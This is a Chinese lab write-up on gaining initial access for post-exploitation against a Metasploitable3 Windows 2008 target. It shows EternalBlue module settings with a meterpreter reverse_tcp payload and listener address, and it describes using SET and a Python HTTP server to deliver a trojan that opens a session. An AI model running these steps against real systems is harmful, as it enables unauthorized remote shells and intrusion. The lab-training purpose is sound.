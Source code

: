 # 后渗透测试 初始权限的获得

实验环境：攻击机kali,靶机win2k8(metasploitable3)

+ 永恒之蓝
+ setoolkit

## 使用永恒之蓝

如下设置参数，使用`windows/x64/meterprteter/reverse_tcp`作为payload

`msf6 exploit(windows/smb/ms17_010_eternalblue) > options`

`Module options (exploit/windows/smb/ms17_010_eternalblue):`

   `Name           Current Setting  Required  Description``
----           ---------------  --------  -----------
  ` RHOSTS         172.16.0.100     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2,
                                             Windows 7, Windows Embedded Standard 7 target machines.`
`   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Wind
                                             ows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Win
                                             dows Embedded Standard 7 target machines.`

`Payload options (windows/x64/meterpreter/reverse_tcp):`

`   Name      Current Setting  Required  Description`

----      ---------------  --------  -----------
 `  EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.0.101     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port`

## 运行

运行后即可获取会话

![](C:\Users\Aurora\OneDrive\桌面\Metasploit\20.1.1.png)

获取会话后可以使用post进行后渗透测试。

## setoolkit

![](C:\Users\Aurora\OneDrive\桌面\Metasploit\20.1.2.png)

啊，这好像好像就是那个set社工工具箱。嘿嘿嘿。能够自动生成会话，很人性化。

依次使用1社会工程学攻击，4设置监听，配置本地监听`ip/port`

![](C:\Users\Aurora\OneDrive\桌面\Metasploit\20.1.3.png)

开启监听，会自动生成会话

![](C:\Users\Aurora\OneDrive\桌面\Metasploit\20.1.4.png)

设置好payload和其他事项，

使用`python -m SimpleHTTPServer`建立一个简单HTTP服务

生成一个木马上传到靶机服务器。服务器运行即可获取会话。

ps:win2k8禁止下载，暂时没有找到取消的方法，在此采用上一次创建的会话上传木马。